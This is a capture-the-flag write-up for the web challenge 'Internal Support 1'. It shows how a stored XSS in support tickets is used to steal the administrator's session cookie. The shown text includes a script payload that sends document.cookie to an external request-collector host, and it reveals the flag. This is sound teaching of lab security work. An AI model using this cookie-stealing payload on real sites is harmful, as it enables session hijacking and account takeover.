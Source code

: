 # Web

- [Internal Support 1 (100 points)](#internal-support-1-100-points)
- [Internal Support 2 (100 points)](#internal-support-2-100-points)
- [UpCredit (100 points)](#upcredit-100-points)
- [Walter's Blog (100 points)](#walters-blog-100-points)

## Internal Support 1 (100 points)
```
Description:

L'application "Internal Support" permet à la DGA d'assurer le support auprès de ses agents.
En tant que nouvel embauché, vous pouvez vous y inscrire dès à présent.
Chaque demande de support est maintenant traitée par nos administrateurs en un temps record.

Avec une posture d’attaquant, votre but est de parvenir à vous connecter en tant qu'administrateur.
Malheureusement pour vous, le mot de passe est bien trop robuste, vous devez trouver un autre moyen.

Accès à l'épreuve:
URL: http://internalsupport12.chall.malicecyber.com/
```

On the website, there are a basic login and registration form, we create an account with a random mail and password and we are redirected to support requests page

We can create a ticket with a title, a category and a message

We can see that session cookies are not protected with the flag `HttpOnly`, we can try an XSS injection to steal the administrator's cookie when it reads our tickets, and then use it to log in as administrator

With the ticket's message: `<script>alert("xss")</script>` a popup appear, bingo the website is vulnerable to XSS injections !

We are using https://requestbin.com/r to steal the cookies:

Then, with the message: `<script>document.location="https://en4n0msmqglws.x.pipedream.net/"+document.cookie;</script>`, we get two requests, our with our cookie and another, with the administrator cookie

On the website we change our cookie with that of the administrator and we are loged as administrator

We can see at the bottom of the page a todolist:
```
TODOLIST

- Fix the kernel panic problem on the servers
- Find a solution for the XSS on the helpdesk system
- Hide the flag "NoUserValidationIsADangerousPractice" a little bit better
```

The flag is: `NoUserValidationIsADangerousPractice`
